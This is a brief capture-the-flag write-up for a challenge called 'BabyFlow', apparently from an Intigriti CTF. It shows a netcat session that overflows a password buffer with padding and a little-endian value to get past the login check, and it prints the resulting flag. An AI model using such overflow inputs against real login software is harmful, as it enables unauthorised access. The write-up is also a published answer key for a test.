 # BabyFlow

Solved by: @OS1R1S

## Question:
Does this login application even work?!


## Solution:
```
└─$ nc babyflow.ctf.intigriti.io 1331
Enter password: SuPeRsEcUrEPaSsWoRd123AAAAAAAAAAAAAAAAAAA\x01\x00\x00\x00
Correct Password!
INTIGRITI{b4bypwn_9cdfb439c7876e703e307864c9167a15}
```

**Flag:** `INTIGRITI{b4bypwn_9cdfb439c7876e703e307864c9167a15}`
